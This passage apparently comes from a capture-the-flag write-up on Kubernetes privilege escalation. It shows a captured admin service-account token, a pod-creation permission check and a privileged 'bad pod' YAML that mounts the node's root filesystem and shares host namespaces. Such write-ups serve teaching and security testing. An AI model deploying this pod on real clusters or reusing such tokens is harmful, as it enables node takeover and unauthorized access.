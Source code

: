 eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
```
Now it's pretty much over!

> https://labs.bishopfox.com/tech-blog/bad-pods-kubernetes-pod-privilege-escalation

The only think left to check is if we're able to create pods

```
./kc --token=<token> auth can-i create pod
```

<img src="bad.png">

now we can use badpod as mentioned in the article

our yaml payload
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: localhost:5000/dev-alpine
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
